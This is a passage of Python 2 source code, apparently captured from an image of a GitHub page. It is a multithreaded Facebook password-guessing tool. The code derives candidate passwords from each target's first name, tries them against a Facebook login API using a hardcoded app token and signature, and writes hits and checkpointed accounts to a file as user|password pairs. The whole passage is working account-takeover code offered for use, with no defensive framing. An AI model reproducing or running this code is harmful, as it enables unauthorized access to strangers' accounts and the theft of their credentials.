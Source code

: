 													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name'] + '456456'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 42*"\033[1;96m="
	print '\033[1;96m[\033[1;97m \033[1;96m] \033[1;92mProcess Has Been Completed \033[1;97m....'
	print"\033[1;96m[+] \033[1;92mTotal OK\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))
	print("\033[1;96m[+] \033[1;92mCP File Has Been Saved \033[1;91m: \033[1;97mout/checkpoint.txt")
	raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
	menu()
if __name__ == '__main__':
	login()
 
